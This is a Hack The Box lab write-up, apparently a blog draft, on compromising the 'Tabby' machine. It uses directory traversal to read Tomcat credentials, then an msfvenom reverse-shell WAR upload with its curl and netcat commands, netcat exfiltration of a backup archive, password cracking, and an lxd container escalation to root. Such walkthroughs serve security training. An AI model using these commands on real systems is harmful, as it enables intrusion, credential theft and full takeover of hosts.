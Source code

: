 ```yaml
---
layout: post
title:  "HTB Writeup [Linux - Easy] - Tabby"
published: false
---
```


![](/assets/Tabby/Tabby.png)

### Summary
- **Tabby** is a **linux** machine hosting both **Apache web server** and **Tomcat**.
- The website on port 80 had a **Directory Traversal vulnerability** which enabled us to **read a tomcat configuration file** that **contained valid credentials.**
- *Using those,* we **get a user with enough privileges to upload a WAR file containing a reverse shell**. *And, with that*, we **access the box** as the `tomcat` user.
- We find an **encrypted backup archive in the webroot**. We **crack it** with `john` to **get a password.**
- The password was *being reused* by another user on the box (`ash`). And, he happened to be **a member of the `lxd` group.**
- We **escalate our privileges** to `root` by **creating a specially-configured container**.

---

### NMAP
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
`nmap` gives us areas to check: the **website on port 80** and the **Tomcat instance on port 8080**

### Port 80
The home page here was mostly **static content**.

![](/assets/Tabby/homepage-port-80.jpg)

*except for* the **link for the "News" page.**

note: *on the link below*, notice *how the host name changed* to **"megahosting.htb"**

![](/assets/Tabby/virtual-host-routing.jpg)

an entry in our `/etc/hosts` should take care of this **Virtual Host Routing**

```
10.10.10.194 megahosting.htb
```

we also notice that `news.php` handles **a parameter** called `file`. this looks like a **file inclusion vulnerability.**

![](/assets/Tabby/lfi-spotted.jpg)

trying `/etc/passwd` in the parameter doesn't work.

but going **4 directories back** with `../../../../` gets us the **confirmation** we need.

![](/assets/Tabby/lfi-confirmed.jpg)

*after a couple of tries to get the path right,* we are able to **retrieve the source code** of the `news.php` file:

![](/assets/Tabby/news-php-src-code.jpg)

the `fopen` function here makes this a **Directory/Path Traversal vulnerability** and **not a Local File Inclusion.**

that's because `fopen` just **reads a file's contents**. it **doesn't evaluate PHP code** like `include` or `require`

***Knowing this bit spares us the effort of trying to get code execution by including PHP.***

### Reading sensitive files
*As a quick check,* I try to read the `ash` user's **private SSH key** from `/home/ash/.ssh/id_rsa`. But it's *not that easy* :)

I then think "maybe I should check out the tomcat to avoid any rabbit holes". In case there's something to be found there.

![](/assets/Tabby/tomcat-homepage.jpg)

We get some **decent information** from this page. the **webroot** and **where Tomcat is installed.**

*But, when it comes to sensitive files,* there's **a very important one** called `tomcat-users.xml`. it's in `/usr/share/tomcat9/etc/` by default.

*When checking,* it's there!

and we get **creds for a user** with **very nice privileges** :]

![](/assets/Tabby/reading-tomcat-users-xml.jpg)

### Exploiting the manager-script tomcat role to get RCE
The `manager-script` role has access to **upload WAR files.**

which can be a **reverse shell** generated using `msfvenom`. we do that

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.16.3 lport=9000 -f war -o revvy.war
```

![](/assets/Tabby/creating-a-war-file.jpg)

and follow with **uploading the WAR file** using `curl`

```bash
curl -v -u tomcat:'$3cureP4s5w0rd123!' -T revvy.war "http://tabby:8080/manager/text/deploy?path=/shell&update=true"
```

start up a `netcat` listener on port 9000

```bash
nc -lvnp 9000
```

and `curl` the endpoint for our reverse shell

```bash
curl http://tabby:8080/shell
```

![](/assets/Tabby/shell-as-tomcat.jpg)

we're in as `tomcat` :)

### Pivoting through Password Reuse

*Right after improving my shell,* I start with **checking the files** in `/var/www/html`

there's a folder called `files`. It contained a **password-protected zip archive** that's ***owned by*** the `ash` user.

![](/assets/Tabby/finding-ashes-zip-file.jpg)

we **transfer it over** to our kali using `netcat` so we can **crack** it

```bash
# on the victim
nc -lvnp 5000 < 16162020_backup.zip
# on the attacker
nc tabby 5000 > ash_backup.zip
```

*and, to verify that the file wasn't corrupted in-transit,* we do a quick **integrity check** using `md5sum`.

![](/assets/Tabby/transferring-zip-file.jpg)

we use `zip2john` to **get a hash** for `john` to crack

![](/assets/Tabby/zip-password.jpg)

it successfully cracked. but we *didn't find anything important* after unzipping the archive :/

![](/assets/Tabby/zip-files.jpg)

the files were *practically the same* as the original ones.

*But, since we now had a password,* we tried it against `ash` and `root`

didn't work with `root`, but **did** with `ash` :)

![](/assets/Tabby/logged-in-as-ash.jpg)

### LXD Privilege Escalation
*As you may have noticed from the previous image,* `ash` is part of the `lxd` group

![](/assets/Tabby/lxd-group-membership.jpg)

this is *almost exactly the same situation* as in the [Brainfuck Privesc](https://omnisl4sh.github.io/2022/08/17/Brainfuck.html#lxd-privilege-escalation).

one *minor difference* is that **we have to initialize the LX daemon** with `lxd init` before importing the image.

note: also make sure to add `/snap/bin` to the `PATH` environment variable as *it's not there by default.*

```bash
export PATH=$PATH:/snap/bin/
```

![](/assets/Tabby/lxd-init.jpg)

*for a bit of automation,* we're going to throw the commands in a **bash script**. here are the contents:

```bash
#!/bin/bash
lxc image import alpine-small-image.tar.gz --alias myimage
lxc image list
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

*after getting the container root shell,* we add an **SUID bit** to the host's **bash shell** so we can run it as `root`

```bash
chmod +s /mnt/root/bin/bash
```

![](/assets/Tabby/lxc-root-bash-script.jpg)

### Cleaning Up

*To clear out any remnants,* we have to **stop the container**, **delete it** along with **the image we imported.**

```bash
lxc stop mycontainer
lxc delete mycontainer
lxc image delete myimage
```

![](/assets/Tabby/lxc-cleanup.jpg)